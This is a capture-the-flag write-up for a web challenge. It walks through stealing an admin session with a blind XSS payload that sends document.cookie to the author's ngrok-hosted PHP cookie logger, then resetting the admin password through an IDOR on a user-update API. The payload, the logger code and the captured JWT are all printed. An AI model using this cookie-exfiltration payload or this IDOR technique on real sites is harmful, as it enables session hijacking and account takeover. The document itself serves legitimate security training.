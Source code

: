 ## Description
"The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?"

Since this is a web challenge so first thing I did is bruteforcing the directories with dirsearch
![dirs](https://user-images.githubusercontent.com/43896992/169715190-b00eb4de-88c4-4694-9639-41721f1d927b.png)

in the login page the default credentials doesn't work, it gives me "INVALID USERNAME OR PASSWORD!" message.

I found a ticket submitting page in the index of the site for reporting issues to the admin
![index](https://user-images.githubusercontent.com/43896992/169715342-651fabfc-2db9-4cfe-bc72-51aa8fd8e5e0.png)

when I type anything it gives me a message says an admin will review my ticket, but unfortunately it doesn't give me any feedback.

first thing that came into my head is it vulnerable to blind xss? can I seal the admin's cookies?, so I started to build the environment for blind xss exploitation to forward the result to my own server.

I made a get.php file that saves the cookies into a jar.txt file
```
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt' , 'a');
fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```
then I made a local php server on port 80 with ```php -S localhost:80``` and I tunneled it out to receive the connection from the vulnerable site with ngrok.

I crafted a blind xss payload ```<script> var i = new Image(); i.src="http://MYSITE.ngrok.io/get.php?q="+document.cookie; </script>```
and I acctually recieved a connection on my server

![ngrok](https://user-images.githubusercontent.com/43896992/169716208-7b2ae392-77a7-47c1-b570-8f41fd3bb0be.png)


The jar.txt file wasn't really useful because I already got the admin's cookies from the request but at least it saved it in a file for me
![jwt](https://user-images.githubusercontent.com/43896992/169716399-46748c7f-0fc3-4780-aa88-2c88df50ed0a.png)

**Cookies:**```session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4NzEzMjB9.iTg4YroMbHGEaFrDZH8k5t4m9hHPN2nEkRQW31HMrvs```

it's a jwt, so I tried to decode it in [jwt.io](https://jwt.io) and it turned out a moderator's cookie
![jwt io](https://user-images.githubusercontent.com/43896992/169716515-b5057b23-3770-4764-8359-10f67058d88a.png)

I injected it and now I'm a moderator
![mod](https://user-images.githubusercontent.com/43896992/169717290-e723c934-478f-4f6b-b7aa-b92819509a7b.png)

but there's nothing useful in the page, I'm not fully privileged; so, I need to escalate my user to admin not just a moderator.

Since this is another user with another session I thought I may now access the 302 pages and this attempt succeeded and it's now 200, I tried to access ```/settings``` and I found a password changing page, now I can grab the endpoint which is responsible for password changing.
![pass](https://user-images.githubusercontent.com/43896992/169717505-081da6de-4ad2-4800-bf10-2e75b1df838e.png)
![modpass](https://user-images.githubusercontent.com/43896992/169717566-408439ef-c4fb-4542-8fed-1e0be60d0671.png)

the endpoint is ```/api/users/update``` with POST method.

I tried to change the jwt ```username``` value to ```admin``` and use it as a cookie but it didn't work
![Ajwt](https://user-images.githubusercontent.com/43896992/169718032-ec4136af-3ede-4255-9404-4ff587bbdf96.png)

then I tried to use it in the paswword resetting request and it didn't word too, it was a poor idea in the first place..
![Fadmin](https://user-images.githubusercontent.com/43896992/169718195-cab5bb47-ced1-4786-b000-86a708c54d55.png)

I found a parameter ```uid``` that have value ```100```.
mostly in web apps the admin's uid is 1 or 0 so I thought about idor attack, and if it wasn't 1,0 I would bruteforce it with the intruder until I find the admin's uid

So I changed the value of the ```uid``` to ```1``` and it fortunately worked
![adminspass](https://user-images.githubusercontent.com/43896992/169717743-9496fcfc-458d-4e6d-b8a2-768186821608.png)

Then I logged with the new password in the ```/login``` page and I finally got the flag
<sub>it was in the ```/admin``` page but it was unaccessable unless you're the admin</sub>
![flag](https://user-images.githubusercontent.com/43896992/169717857-c7672396-c9ed-48db-bb52-d2cf2062d701.png)
### ```HTB{x55_4nd_id0rs_ar3_fun!!}```
